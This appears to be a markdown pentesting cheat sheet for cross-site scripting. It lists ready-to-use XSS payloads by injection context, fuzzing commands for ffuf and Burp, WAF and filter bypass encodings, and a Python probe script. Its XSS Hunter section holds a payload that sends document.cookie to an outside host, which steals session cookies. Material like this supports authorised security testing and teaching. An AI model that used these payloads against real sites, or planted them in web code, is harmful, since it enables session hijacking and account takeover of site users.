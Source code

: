 # Cross-Site Scripting (XSS)

### Quick Payloads

#### Basic XSS

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>
<div onmouseover="alert(1)">Hover me</div>
```

#### Event Handlers

```html
onclick=alert(1)
onmouseover=alert(1)
onerror=alert(1)
onload=alert(1)
onfocus=alert(1)
onblur=alert(1)
```

#### JavaScript Events

```javascript
javascript:alert(1)
data:text/html,<script>alert(1)</script>
vbscript:alert(1)
```

#### DOM Based

```javascript
document.write('<script>alert(1)</script>')
eval('alert(1)')
setTimeout('alert(1)',0)
setInterval('alert(1)',0)
```

### Testing Methodology

#### 1. Parameter Fuzzing

```bash
# Using ffuf
ffuf -u "http://target.com/page?param=FUZZ" -w xss-payloads.txt

# Using Burp Suite
1. Intercept request
2. Send to Intruder
3. Select parameter
4. Load payload list
```

#### 2. Common Test Points

```
URL Parameters: ?search=<script>alert(1)</script>
Form Fields: <input name="username" value="<script>alert(1)</script>">
Headers: User-Agent: <script>alert(1)</script>
JSON: {"name": "<script>alert(1)</script>"}
```

#### 3. Context Testing

```html
# HTML Context
<div><script>alert(1)</script></div>
<div><img src=x onerror=alert(1)></div>

# Attribute Context
<input value=""><script>alert(1)</script>">
<input value=""><img src=x onerror=alert(1)>">

# JavaScript Context
<script>var x = "<script>alert(1)</script>";</script>
<script>var x = "\";alert(1);//";</script>
```

### Common Vulnerable Endpoints

#### Search Forms

```html
search=<script>alert(1)</script>
search=<img src=x onerror=alert(1)>
search=<svg onload=alert(1)>
```

#### Comment Sections

```html
comment=<script>alert(1)</script>
comment=<img src=x onerror=alert(1)>
comment=<svg onload=alert(1)>
```

#### User Profiles

```html
name=<script>alert(1)</script>
bio=<img src=x onerror=alert(1)>
avatar=<svg onload=alert(1)>
```

### Tools & Commands

#### XSS Hunter

```bash
# Basic payload
<script src="https://xss.ht"></script>

# DOM based
<script>fetch('https://xss.ht/'+document.cookie)</script>
```

#### Custom Python Script

```python
import requests

def test_xss(url, param, payloads):
    for payload in payloads:
        data = {param: payload}
        r = requests.post(url, data=data)
        if payload in r.text:
            print(f"Potential XSS: {payload}")
```

### Common Bypass Techniques

#### WAF Bypass

```html
# Case variation
<ScRiPt>alert(1)</ScRiPt>
<IMG src=x OnErRoR=alert(1)>

# Encoding
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
%3Cscript%3Ealert(1)%3C/script%3E

# Double encoding
%253Cscript%253Ealert(1)%253C/script%253E
```

#### Filter Bypass

```html
# Script tag bypass
<scr<script>ipt>alert(1)</scr</script>ipt>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>

# Event handler bypass
<div onmouseover="alert(1)">Hover me</div>
<body onload=alert(1)>
```

### References

* [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
* [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)
* [XSS Hunter](https://xsshunter.com/)
